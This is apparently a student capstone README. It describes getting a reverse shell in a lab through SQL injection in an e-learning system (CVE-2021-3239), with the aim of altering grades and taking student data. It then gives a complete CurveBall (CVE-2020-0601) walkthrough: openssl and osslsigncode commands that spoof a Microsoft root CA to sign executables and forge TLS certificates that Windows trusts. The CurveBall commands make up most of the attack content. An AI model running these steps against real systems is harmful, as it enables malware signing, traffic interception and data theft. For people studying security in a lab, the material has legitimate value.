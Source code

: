 # CS590J Capstone 

The general idea: Victim is a school education system that has all the grades and tons of student/teacher information. Let's assume this is all stored on the same machine and we can put all these files on the desktop. We are a student that wants to have malicious access to this system to modify school files (change our grades, attendance), spy on peer's information, and whatever teacher files are on the computer (data modification and exfil). There is a vulnerability in the system (CVE-2021-3239): "E-Learning System 1.0" (an actual piece of software submitted to an open source website which was used by a public school in the Philippines) is vulnerable to SQL injection and we are able to authenticate by SQL injecting an "or TRUE" into the unsanitized login screen and then gain a reverse shell or install an implant. From here the implant runs and we connect to it via a C2 software that we wrote so that we can choose which data and when to extract it or when to abort.

#How to setup the victim and environment
To test this out, generally follow the setup instructions here: https://www.sourcecodester.com/php/12808/e-learning-system-using-phpmysqli.html.
- First setup a virtual machine in virtualbox of windows 10 old version: https://drive.google.com/file/d/1OUPmqJ7JiYdY5jt7T7G9oDnN01usJs7v/view?usp=sharing. I gave it 32 GB storage and 5 GB RAM, but more is better of course. All future instructions are from this VM.
- Install XAMP version 7.2.33 onto this windows VM(this version is important) https://www.apachefriends.org/download.html. You will have to click more and then find version 7.2.33. Download the most frequently downloaded copy of this version.
- Install netcat through nmap https://nmap.org/
- Install the most recent version of Python and pip install requests and colorama (it's a lot easier to see colored text stand out)
- Follow the instructions in the first link to setup E-Learning System 1.0. This includes extracting the CAIWL program, running apache and mySQL, setting up a database.
- Execute the python script (exploit.py) from anywhere (on the VM unless you specify the ports from another machine - we need to modify the code if we want it to open a port onto another VM) to gain a reverse shell where you have another window running:
```
ncat -l 9999
```
- All in all it looks like so:
![Image of the Code](https://github.com/yshneyderman/CS590J-Capstone/blob/main/example.png)


##How to Setup GitHub
Generate SSH Keys
- sudo apt-get install git
- git config --global user.email "yealsh21@gmail.com"
- git config --global user.name "Yefim"
- ssh-keygen -t ed25519 -C "yealsh21@gmail.com"
- eval "$(ssh-agent -s)"
- ssh-add ~/.ssh/id_ed25519
- sudo apt-get install xclip
- xclip -selection clipboard < ~/.ssh/id_ed25519.pub

Add SSH Keys
- Login to GitHub, click profile, click settings and add SSH Key. Paste Key, give any title.

Clone the Repository
- git clone git@github.com:yshneyderman/CS590J-Capstone.git

Install Ruby:
- sudo apt update
- sudo apt install ruby

Adding changes (to a branch)
- git commit -a -m "What I changed"
- git push

#CurveBall (CVE-2020-0601) Exploit



## Usage
Create a certificate with the same public key and parameters of a trusted CA. This will be used as our spoofing CA. Set the generator to a value, where you know the private key. You can easily set the generator to the public key, and have a private key set to `1`, since `Q = dG`.

Next up, you create a certificate signing request with the extensions you wish to use, e.g. code signing or server authentication.

Sign this certificate request with your spoofed CA and CA key, and add the usage extensions.

Bundle the signed certificate request (now a regular certificate) with the spoofed CA, and you have a signed and trusted certificate. 

When Windows checks whether the certificate is trusted, it'll see that it has been signed by our spoofed CA. It then looks at the spoofed CA's public key to check against trusted CA's. Then it simply verifies the signature of our spoofed CA with the spoofed CA's generator - this is the issue.

If you choose to open your newly and signed, trusted certificate in Windows, it'll not recognize it as trusted, since it hasn't been tied to anything, thus it will not use the spoofed CA. The certificate must always present itself with the spoofed CA.

## Code Signing
*Please use this for educational and researching purposes only.* 

Extract the public key from the CA and modify it according to the vulnerability:

    ruby main.rb ./MicrosoftECCProductRootCertificateAuthority.cer
Generate a new x509 certificate based on this key. This will be our own spoofed CA.

    openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt
Generate a new key. This key can be of any type you want. It will be used to create a code signing certificate, which we will sign with our own CA.

    openssl ecparam -name secp384r1 -genkey -noout -out cert.key
Next up, create a new  certificate signing request (CSR). This request will oftenly be sent to trusted CA's, but since we have a spoofed one, we can sign it ourselves.

    openssl req -new -key cert.key -out cert.csr -config openssl_cs.conf -reqexts v3_cs
Sign your new CSR with our spoofed CA and CA key. This certificate will expire in 2047, whereas the real trusted Microsoft CA will expire in 2043.

    openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl_cs.conf -extensions v3_cs
The only thing left is to pack the certificate, its key and the spoofed CA into a PKCS12 file for signing executables.

    openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile spoofed_ca.crt -name "Code Signing" -out cert.p12
Sign your executable with PKCS12 file.

    osslsigncode sign -pkcs12 cert.p12 -n "Signed by ollypwn" -in 7z1900-x64.exe -out 7z1900-x64_signed.exe

## SSL/TLS
*Please use this for educational and researching purposes only.* 
Extract the public key from the CA and modify it according to the vulnerability:

    ruby main.rb ./MicrosoftECCProductRootCertificateAuthority.cer
Generate a new x509 certificate based on this key. This will be our own spoofed CA.

    openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt
Generate a new key. This key be of any type you want. It will be used to create a SSL certificate, which we will sign with our own CA.

    openssl ecparam -name secp384r1 -genkey -noout -out cert.key
Next up, create a new  certificate signing request (CSR). This request will oftenly be sent to trusted CA's, but since we have a spoofed one, we can sign it ourselves.

If you wish to change the domain name, edit `CN  = www.google.com` to `CN  = www.example.com` inside of `openssl_tls.conf`.

    openssl req -new -key cert.key -out cert.csr -config openssl_tls.conf -reqexts v3_tls
Sign your new CSR with our spoofed CA and CA key. This certificate will expire in 2047, whereas the real trusted Microsoft CA will expire in 2043.

    openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl_tls.conf -extensions v3_tls
You can now use `cert.crt`, `cert.key`, and `spoofed_ca.crt` to serve your content. Again, remember to add the spoofed_ca.crt as a certificate chain in your server's HTTPS configuration.

See the usage example in [https://github.com/IIICTECH/-CVE-2020-0601---ECC-/blob/master/tls/index.js).


